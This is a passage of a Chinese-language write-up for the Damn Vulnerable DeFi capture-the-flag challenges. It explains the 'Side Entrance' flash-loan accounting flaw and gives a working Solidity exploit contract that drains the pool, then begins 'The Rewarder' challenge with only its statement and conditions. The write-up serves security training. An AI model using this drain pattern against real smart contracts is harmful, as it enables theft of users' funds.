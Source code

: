 ```
    }
}
```

### Side Entrance

[題目](https://www.damnvulnerabledefi.xyz/challenges/side-entrance/): 一個出乎意料的簡單池子允許任何人存入ETH，並隨時提取。該池子已經有1000 ETH的餘額，並提供免費的閃電貸款來推廣他們的系統。你開始時有1 ETH的餘額。通過將池子裡的所有ETH救出並存入指定的 Recovery 錢包來完成挑戰。

過關條件:
- 池子的餘額必須為0.
- 指定的 Recovery 錢包中的餘額必須等於池子中原本的ETH數量（即 ETHER_IN_POOL）.
解題:
- flashLoan 採用非標準用法, 判斷有沒有repay只是看池子的餘額 if (address(this).balance < balanceBefore). 
- 所以只要透過 flashLoan借款出來, 再透過deposit存回去. 就代表repay了. 然後你在合約同時有存款證明, 可執行 withdraw 就可以把$$轉出去了.

[POC](./damn-vulnerable-defi/test/SideEntrance/SideEntrance.t.sol) : 
```
    function test_sideEntrance() public checkSolvedByPlayer {
        Exploit exploiter = new Exploit(address(pool), recovery, ETHER_IN_POOL);
        exploiter.attack();
    }
contract Exploit{
    SideEntranceLenderPool public pool;
    address public recovery;
    uint public exploitAmount;
    constructor(address _pool, address _recovery, uint _amount){  
        pool = SideEntranceLenderPool(_pool);
        recovery = _recovery;
        exploitAmount = _amount;
    }
    function attack() external returns(bool){
        pool.flashLoan(exploitAmount);
        pool.withdraw();
        payable(recovery).transfer(exploitAmount);
    }
    function execute() external payable{
        pool.deposit{value:msg.value}();
    }
    receive() external payable{}
}

```
### The Rewarder
[題目](https://www.damnvulnerabledefi.xyz/challenges/the-rewarder/): 一個合約正在分發Damn Valuable Tokens和WETH作為獎勵。要領取獎勵，用戶必須證明自己在選定的受益者名單中。不過不用擔心燃料費，這個合約已經過優化，允許在同一筆交易中領取多種代幣。Alice已經領取了她的獎勵。你也可以領取你的獎勵！但你發現這個合約中存在一個關鍵漏洞。儘可能多地從這個分發者手中拯救資金，將所有回收的資產轉移到指定的 Recovery 錢包中。

過關條件:
- 分發者合約中的剩餘DVT數量必須少於1e16（也就是0.01 DVT），僅允許留下極少量的「Dust」。
- 分發者合約中的剩餘WETH數量必須少於1e15（也就是0.001 WETH），僅允許留下極少量的「Dust」。
- 指定Recovery 錢包中的DVT數量必須等於總分發DVT數量（TOTAL_DVT_DISTRIBUTION_AMOUNT）減去Alice已經領取的DVT數量（ALICE_DVT_CLAIM_AMOUNT）以及分發者合約中剩餘的DVT數量。
- 指定Recovery 錢包中的WETH數量必須等於總分發WETH數量（TOTAL_WETH_DISTRIBUTION_AMOUNT）減去Alice已經領取的WETH數量（ALICE_WETH_CLAIM_AMOUNT）以及分發者合約中剩餘的WETH數量。
